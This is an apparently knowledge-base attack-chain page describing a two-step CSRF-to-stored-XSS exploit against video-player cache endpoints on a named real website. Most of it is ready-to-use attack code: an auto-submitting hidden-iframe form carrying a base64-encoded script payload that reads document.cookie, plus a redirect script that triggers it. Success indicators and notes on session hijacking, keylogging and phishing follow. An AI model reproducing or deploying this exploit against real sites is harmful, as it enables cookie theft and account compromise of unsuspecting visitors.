

# CSRF to Stored XSS via Age Parameter in Video Player Cache

Multi-stage attack chain demonstrating a complete attack workflow exploiting CSRF in a PHP-based web application to inject and trigger stored XSS for client-side JavaScript execution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for crafting HTML POC
- No specialized tools required; uses standard web technologies

### Target Environment

- Web platform with PHP backend
- Accessible endpoints: /php/videoplayer_cache/set.php and /php/videoplayer_cache/get.php
- No authentication required for the vulnerable endpoints

### Initial Access Requirements

- Victim must visit attacker's malicious HTML page (e.g., via phishing or drive-by compromise)
- Attacker needs a domain or page to host the CSRF payload
- Network access to the target site (e.g., www.rockstargames.com)

## Detailed Attack Procedures

### Step 1: Inject Malicious Payload via CSRF
procedure: [[procedures/Exploit-CSRF-to-Set-Malicious-Age-Parameter]]

**Objective**: Forge a POST request to set.php to store a malicious 'age' value without user interaction, exploiting lack of CSRF protection.

**Instructions**: Host an HTML page with a form that auto-submits to the target endpoint using a hidden iframe. The payload is an HTML anchor tag containing a base64-encoded script that alerts the document.cookie upon click.

Use the following HTML structure:

```html
<!DOCTYPE html>
<html>
<body>
<iframe name="hiddenFrame" style="display:none;"></iframe>
<form id="csrfForm" action="http://www.rockstargames.com/php/videoplayer_cache/set.php" method="POST" target="hiddenFrame">
    <input type="hidden" name="age" value="<a href=data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5jb29raWUpOzwvc2NyaXB0Pg==>CLICK ME</a>">
</form>
<script>
    document.getElementById('csrfForm').submit();
</script>
</body>
</html>
```

**Expected Output**: The form submits silently, setting the 'age' cookie or session value to the payload without visible changes to the victim.

**Success Indicators**:
- Iframe loads without errors
- Subsequent visit to get.php triggers the XSS

### Step 2: Trigger XSS Execution
procedure: [[procedures/Trigger-Stored-XSS-via-Get-Endpoint]]

**Objective**: Redirect the victim to get.php, where the unsanitized 'age' value is rendered, executing the injected JavaScript.

**Instructions**: After the CSRF submission, use JavaScript to listen for the iframe load event and redirect the main window to the get.php endpoint.

Add this script to the HTML POC after the form:

```javascript
window.addEventListener('load', function() {
    var iframe = document.querySelector('iframe');
    iframe.onload = function() {
        window.location = 'http://www.rockstargames.com/php/videoplayer_cache/get.php';
    };
});
```

**Expected Output**: The page redirects to get.php, rendering the malicious 'age' value as HTML, which injects the anchor tag. Clicking it decodes and executes the script, alerting the victim's cookies.

**Success Indicators**:
- Alert box displays document.cookie contents
- Potential for further JS-based attacks like keylogging or phishing

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protections to store arbitrary data client-side
2. Achieved stored XSS without direct input control
3. Enabled client-side attacks such as session hijacking via cookie theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise (CSRF delivery)
- [[JavaScript]] JavaScript (XSS execution)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access (via malicious page)
- [[Execution]] Execution (JS payload)
- [[Collection]] Collection (cookie theft)

---
*Last updated: 2023-10-01T00:00:00Z*
